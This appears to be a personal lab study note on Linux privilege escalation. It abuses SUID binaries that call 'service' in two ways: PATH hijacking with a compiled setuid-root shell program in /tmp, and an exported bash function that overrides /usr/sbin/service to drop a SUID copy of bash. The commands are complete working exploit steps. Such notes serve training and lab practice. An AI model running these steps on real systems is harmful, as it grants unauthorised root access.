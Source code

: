 An environmental variable is a variable that are available in the entire system and that are inherited by all child processes and shells.


To see which of them are present we can run:
```bash
env
```
- ![[Pasted image 20250117143949.png]]
- `PATH` is very important in order to understand the path of the executables in the system


Sometimes we can change them and gain the root access on the system.

# Search for `SUID` set files
As usual we run:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- ![[Pasted image 20250117144155.png]]
- in this case we will focus on `/usr/local/bin/suid-env` and `/usr/local/bin/suid-env2` created appositely for example


# strings on `/usr/local/bin/suid-env`

We run:
```bash
strings /usr/local/bin/suid-env 
```
- ![[Pasted image 20250117144435.png]]
- we can see it starts the `apache` service

It runs this service using our path:
```bash
print $PATH
```
- ![[Pasted image 20250117144546.png]]

In fact if we run `service` it knows where it is.

But if we change the path in order to run `service` from another folder?
- we can run a malicious service


# Create malicious `service`
We can use this inline command to create a `c` file:
```bash
echo 'int main(){ setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

So now we need to compile it:
```bash
gcc /tmp/service.c -o /tmp/service
```

Now we just need to change the PATH in order to run it instead of the real `service`.


# Changing the path
To do it we just need to run:
```bash
export PATH=/tmp:$PATH
```

And we can see that it is updated and the first path called is `/tmp`:
```bash
print $PATH
```
- ![[Pasted image 20250117145243.png]]



# Running the program

Now we just need to run the program seen before:
```bash
/usr/local/bin/suid-env
```
- ![[Pasted image 20250117145341.png]]

<mark style="background: #BBFABBA6;">We gain the root shell!</mark>


But what happens when the program calls a direct path?


# Calling  direct path /usr/sbin/service

The second file we have seen was `/usr/local/bin/suid-env2`.

In this case it's a little bit different:
```bash
strings /usr/local/bin/suid-env2
```
-  ![[Pasted image 20250117145628.png]]
- it calls the direct path `/usr/sbin/service`

In this specific case we need to create a malicious function and not a file as before.

# malicious function creation
So we just need to go into `/tmp` and create a mlaicious function `/usr/sbin/service`

Inline creation:
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
- we have created it

Now we need to export the function as if was a path:
```bash
export -f /usr/sbin/service
```

So when we will run:
```bash
/usr/local/bin/suid-env2
```
- it will call `/usr/sbin/service` that is a function exported as environmental variable
  
The function will pop a shell as root:
- ![[Pasted image 20250117150148.png]]


We have to do the creation and export each time we run the binary `/usr/local/bin/suid-env2`


<mark style="background: #BBFABBA6;">We gain a root shell!</mark>

